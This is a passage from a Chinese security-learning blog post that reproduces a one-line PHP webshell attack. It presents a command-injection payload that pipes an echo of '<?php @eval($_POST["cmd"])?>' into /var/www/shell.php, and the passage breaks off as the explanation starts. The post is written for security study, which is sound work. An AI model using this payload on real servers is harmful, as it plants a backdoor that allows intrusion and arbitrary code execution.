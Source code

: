 # 原创
：  一句话木马攻击复现：揭示黑客入侵的实战过程

# 一句话木马攻击复现：揭示黑客入侵的实战过程

这篇文章旨在用于网络安全学习，请勿进行任何非法行为，否则后果自负。

#### [准备环境](https://blog.csdn.net/weixin_43263566/article/details/129031187)

<img alt="" height="384" src="https://img-blog.csdnimg.cn/b0494445c491495993b0ab6b9c1a9d30.png" width="931"/>​ 

### 1、命令注入中复现

<img alt="" height="511" src="https://img-blog.csdnimg.cn/9d75f161ed784051957c283f040037ff.png" width="834"/>​

##### 攻击payload

```
127.0.0.1 | echo "&lt;?php @eval(\$_POST[\"cmd\"])?&gt;" &gt; /var/www/shell.php
```

这个命令的目的是在服务器上创建一个名为 `shell.php` 的文件，其中包含 PHP 代码。让我们逐步分析该命令：
